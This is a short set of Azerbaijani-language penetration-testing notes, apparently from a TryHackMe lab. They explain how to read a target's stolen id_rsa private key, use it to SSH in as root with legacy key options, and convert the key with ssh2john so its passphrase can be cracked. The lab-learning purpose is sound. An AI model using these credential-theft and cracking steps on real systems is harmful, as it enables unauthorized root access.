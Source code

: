 ## eger hansisa sistemin id-rsa varsa biz artiq hemin sisteme oz atack masinimizda ip adresi ile daxil ola bileriq root kimi 
## (USERDE)
## evvelce biz cat verib hemid id rsa oxuyuruq
## sorna  biz oz atack masinimiza kecirik ve NANO ILE HEMID FAYL ADINDA BIR FAYL YARADIRIQ VE HEMID YAZINI BURA DAXIL edirik
## (KALIDE)'
    ssh -i (ID_RSA-ADINI) -oPubkeyAcceptedKeyTypes=+ssh-rsa -oHostKeyAlgorithms=+ssh-rsa root@10.10.146.185

## VE ARTIQ ROOT KIMI DAXIL OLMUSUQ    
    
# vi emrinden istifade ederken idrsa fileni
     vi id_rsa 
     i duymesini klikleyirik
     daha sonra ctrl V duymesi vasitesi ile paste edirik copy elediyimizi 
     ( shift + : )  bu duymeleri klikledikden sonra wq yaziriq 

# daha sonra
    ssh2john emri ile 
    ssh2john id_rsa > hash
    # file johnun qirabileceyi formaya getirir
 ## bu linkvasitesi ile baxa bilerik
 https://buraksevben.medium.com/tryhackme-basic-pentesting-solution-turkish-242b935df5dc 
 

